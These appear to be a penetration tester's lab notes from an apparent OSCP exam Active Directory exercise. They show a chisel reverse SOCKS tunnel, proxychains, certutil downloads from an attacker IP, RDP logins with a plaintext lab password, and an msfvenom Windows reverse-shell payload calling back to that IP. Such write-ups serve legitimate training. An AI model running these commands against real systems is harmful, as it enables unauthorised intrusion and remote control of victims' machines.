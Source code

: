 ```shell
# setting up on my linux machine as server
┌──(root㉿kali)-[/home/kali/Documents/12apr_exam/ADset]
└─# ./chisel_1.8.1_linux_amd64 server -p 8000 --reverse

#transferring windows chisel over

certutil.exe -urlcache -split -f "http://192.168.49.118:1337/chisel_1.8.1_windows_amd64.exe"
# on windows box 2 make chisel client and remote forward to socks proxy to forward through socks proxy to allow connection to domain controller

12:22 PM 2/7/2023
	chisel_1.8.1_windows_amd64 client 192.168.49.118:8000 R:1080:socks
	```

- Proxy chains working, and rdp is open, going to try to get on as alice
```shell

┌──(root㉿kali)-[/home/kali/Documents/12apr_exam/ADset]
└─# proxychains nc -nv 172.16.118.102 3389                               
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Dynamic chain  ...  127.0.0.1:1080  ...  172.16.118.102:3389  ...  OK
(UNKNOWN) [172.16.118.102] 3389 (ms-wbt-server) open : Operation now in progress
^C
```


![[working proxy chains .102.png]]

proxychains rdesktop -u Alice.Walters -p 1q2w3e4r5t 172.16.118.100

proxychains4 xfreerdp /u:Alice.Walters /p:1q2w3e4r5t /v:172.16.118.102

On As alice
![[Penetration Testing v2/oscp pass 20230412/AD Set/MS01 192.168.118.101/screenshots/On as alice.png]]


- need to get a reverse shell from T2 alice box back to kali vm to take screenshot of flags

```shell
# generating new rev shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.118 LPORT=4545 -f exe -o revshell.exe 

```

# didnt need to do this start
- picture of reverse shell
![[revshell alice.png]]

- didnt work, going to need to rework my chisel command on MS01
```shell
certutil.exe -urlcache -split -f "http://192.168.49.118:1337/revshell.exe"
```
